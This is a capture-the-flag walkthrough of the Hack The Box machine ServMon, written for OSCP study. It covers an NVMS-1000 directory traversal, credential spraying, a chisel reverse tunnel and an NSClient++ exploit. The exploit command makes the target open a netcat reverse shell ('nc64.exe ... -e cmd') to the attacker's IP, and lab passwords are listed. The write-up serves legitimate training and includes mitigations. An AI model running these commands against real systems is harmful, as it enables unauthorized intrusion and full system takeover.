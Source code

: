 ```yaml
---
title: Servmon
date: 2025-05-29
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Windows, NVMS-1000, LFI, NSClient++-rce] 
image: servmon.png
media_subpath: /assets/img/posts/2025-05-29-servmonHTB/
---
```


## Introduction

In this walkthrough, I tackled the *ServMon* machine, an easy-rated Windows target. The HTTP server was running NVMS-1000, which was vulnerable to a Local File Inclusion (LFI) vulnerability. I leveraged this to access a list of passwords on a user's desktop. One of the credentials worked over SSH for another user.

After gaining initial access, I enumerated the system and found the password for `NSClient++`, a local monitoring agent. To access its web interface, I used `chisel` to create a tunnel. NSClient++ had functionality that allowed command execution as `NT AUTHORITY\SYSTEM`. Exploiting this feature, I achieved a SYSTEM-level shell.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 21

Anonymous access is allowed I found:

- **Nadine**
    
    ```bash
    Nathan,
    
    I left your Passwords.txt file on your Desktop.  
    Please remove this once you have edited it yourself and place it back into the secure folder.
    
    Regards
    
    Nadine
    ```
    
- **Nathan**
    
    ```bash
    1) Change the password for NVMS - Complete
    2) Lock down the NSClient Access - Complete
    3) Upload the passwords
    4) Remove public access to NVMS
    5) Place the secret files in SharePoint 
    ```
    

### Port 22

We usually skip SSH.

### Port 139/445

- **smbclient**
    
    ```bash
    smbclient -L //$IP/ -N
    ```
    
    **NT_STATUS_ACCESS_DENIED**
    
- enum4linux
    
    ```bash
    enum4linux $IP
    ```
    
    **no result**
    

### Port 5666

## Web

### Port 80

### Port 8443

## Exploitation

I am greeted with login panel for `NVMS 1000` software searching for its vulnerabilities I found the following:

[NVMS 1000 - Directory Traversal](https://www.exploit-db.com/exploits/47774)

I checked it and it worked:

![image.png](image%201.png)

I tried reading passwords that were mentioned before:

![image.png](image%202.png)

I checked credentials with users and got a hit:

```bash
sudo nxc smb $IP -u users -p passwords --continue-on-success
```

![image.png](image%203.png)

Using these credentials in SSH connection I can connect to the target.

## Privilege Escalation

Analyzing the application under `c:\Program Files\NSClient++` we see config file `nsclient.ini` in that file we can find password for its interface.

![image.png](image%204.png)

Checking the version of NSClient++ I see;

```bash
.\nscp.exe --version
```

![image.png](image%205.png)

I found the following exploit for it:

[NSClient++ 0.5.2.35 - Authenticated Remote Code Execution](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/48360&ved=2ahUKEwjzraGs88iNAxVhhv0HHW9CL7AQFnoECBoQAQ&usg=AOvVaw0b941HqPwU8-IaBNEns4_O)

[NSClient 0.5.2.35 Exploit / Privilege-Escalation](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation&ved=2ahUKEwjzraGs88iNAxVhhv0HHW9CL7AQFnoECCEQAQ&usg=AOvVaw354RCEtlZ0eep49R6QLVMX)

According to Nathan he closed public access to NSFClien++ maybe that’s why we cannot access it even trying all passwords obtained.

Let’s make port forwarding of that port and see if it works:

```bash
./chisel_1.10.1_linux_amd64 server --reverse --port 1234 -v #linux

.\chisel.exe client 10.10.14.12:1234 R:8443:127.0.0.1:8443 #target
```

Now I can access the application with provided password:

![image.png](image%206.png)

First I transferred `nc64.exe` to the target and then using this exploit [NSClient++ 0.5.2.35 - Authenticated Remote Code Execution](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/48360&ved=2ahUKEwjzraGs88iNAxVhhv0HHW9CL7AQFnoECBoQAQ&usg=AOvVaw0b941HqPwU8-IaBNEns4_O) I got an NT Authority\System shell.

```bash
python 48360.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'c:\tools\nc64.exe 10.10.14.12 21 -e cmd'
```

![image.png](image%207.png)

![image.png](image%208.png)

## Credentials

```bash
Nadine : L1k3B1gBut7s@W0rk

NSCLient++ - ew2x6SsGTxjRxXOT
```

## Mitigation

- Apply security patches for NVMS-1000 and avoid exposing such applications to the internet.
- Restrict access to sensitive files and use proper file permissions.
- Avoid storing plaintext credentials on disk.
- Secure remote monitoring tools like NSClient++ by disabling script execution features or restricting them to trusted users.
- Use firewalls and tunneling restrictions to prevent unauthorized internal network access.
